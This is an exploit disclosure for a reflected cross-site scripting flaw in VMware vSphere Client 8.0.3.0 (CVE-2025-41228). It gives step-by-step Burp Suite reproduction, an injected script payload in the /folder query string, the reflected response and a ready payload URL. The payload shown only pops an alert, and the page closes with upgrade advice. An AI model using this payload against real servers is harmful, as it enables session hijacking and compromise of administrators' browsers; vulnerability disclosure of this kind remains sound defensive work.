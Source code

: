 # VMware vSphere Client 8.0.3.0 - Reflected Cross-Site Scripting (XSS)

- **Exploit Title**: VMware vSphere Client 8.0.3.0 - Reflected Cross-Site Scripting (XSS)
- **Date**: 2025-08-08
- **Exploit Author**: Imraan Khan (Lich-Sec)
- **Vendor Homepage**: [https://www.vmware.com](https://www.vmware.com)
- **Version**: vSphere Client 8.0.3.0
- **Tested On**: Web interface (Chrome 138)
- **CVE**: CVE-2025-41228
- **Category**: WebApps

---

## Description

A reflected Cross-Site Scripting (XSS) vulnerability exists in VMware vSphere Client version 8.0.3.0. The application fails to sanitize input passed via a query string to the `/folder` endpoint, resulting in arbitrary JavaScript execution when the reflected value is rendered into an HTML form’s `action` attribute.

The vulnerability was confirmed by intercepting a request through Burp Suite and injecting a malicious payload. This XSS only successfully executes when the response is rendered by a browser within an **active session**, such as one initiated via prior authentication.

---

## Steps to Reproduce

### 1. Initiate request to vulnerable endpoint

Open a browser and navigate to:

```
https://host/folder
```

This sends a benign request that you will intercept.

![Browser navigation to folder endpoint](https://raw.githubusercontent.com/stSLAYER/Lich-Sec/main/CVE/CVE-2025-41228/vcenter-exploit/browse.png)
![Folder directory listing](https://raw.githubusercontent.com/stSLAYER/Lich-Sec/main/CVE/CVE-2025-41228/vcenter-exploit/folder-dir.png)

---

### 2. Intercept and modify the request using Burp Suite

With Burp Suite proxy enabled, capture the request and modify the query string to inject the XSS payload:

```
GET /folder?ht7j4"><script>alert('ThisIsAVulnerableVersionOfVSphereThatIsVulnerableToXSS')</script>tnkav=1 HTTP/2
Host: 192.168.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Referer: https://192.168.x.x/
Accept: text/html,application/xhtml+xml
```

![Modified request in Burp Suite](https://raw.githubusercontent.com/stSLAYER/Lich-Sec/main/CVE/CVE-2025-41228/vcenter-exploit/request.png)

Then forward the request to the server.

---

### 3. Observe the reflected payload in the HTTP response

In the Burp HTTP Response, the payload appears unencoded within the HTML:

```html
<form action="/folder?ht7j4"><script>alert('ThisIsAVulnerableVersionOfVSphereThatIsVulnerableToXSS')</script>tnkav=1" method="POST">
  <input name="VMware-CSRF-Token" type="hidden" value="..." />
```

![Reflected XSS payload in response](https://raw.githubusercontent.com/stSLAYER/Lich-Sec/main/CVE/CVE-2025-41228/vcenter-exploit/response.png)

This confirms that the payload is reflected back into the HTML in a dangerous context — inside a form’s `action` attribute — allowing script execution. 

---

### 4. Trigger script execution

Because the XSS is reflected but only renders within the full browser context, to observe the popup:

- Forward the exact same malicious request using Burp **with an authenticated session (cookies included)**.
- OR, use Burp's **"Open in Browser"** feature (with session cookies) to request the full response as a browser would.

Upon rendering the page, the browser will execute the injected `<script>`.

Example payload URL:

```
https://192.168.x.x/folder?ht7j4"><script>alert('ThisIsAVulnerableVersionOfVSphereThatIsVulnerableToXSS')</script>tnkav=1
```

![JavaScript alert triggered](https://raw.githubusercontent.com/stSLAYER/Lich-Sec/main/CVE/CVE-2025-41228/vcenter-exploit/popup.png)

--- 

## Impact

Successful exploitation results in arbitrary JavaScript execution within the vSphere Client’s web interface. This could be leveraged for phishing, session hijacking, or further compromise of the admin's browser session.

---

## Recommendation

Upgrade to VMware vCenter Server version **8.0 U3e or later**, which remediates **CVE-2025-41228**.

---

## References

- https://nvd.nist.gov/vuln/detail/CVE-2025-41228
- https://www.vmware.com/security/advisories
